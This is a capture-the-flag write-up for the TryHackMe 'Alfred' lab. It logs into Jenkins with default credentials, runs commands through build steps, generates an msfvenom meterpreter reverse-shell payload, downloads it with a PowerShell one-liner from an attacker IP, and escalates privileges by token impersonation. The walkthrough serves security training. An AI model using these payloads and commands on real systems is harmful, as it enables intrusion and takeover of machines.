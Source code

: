 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![test](https://github.com/MarkSeliter/Writeups/tree/main/img/Pasted image 20210827190250.png)

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![](/img/Pasted image 20210827190250.png)

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![](/img/Pasted image 20210828114210.png)

Then just running "met.exe" using the same misconfiguration.

# User flag
![](/img/Pasted image 20210828115051.png)

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![](/img/Pasted image 20210828115240.png)

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![](img/Pasted image 20210828115908.png)
(if shell commands dont work then migrate to a system process).

# Root flag
![](/img/Pasted image 20210828120047.png)

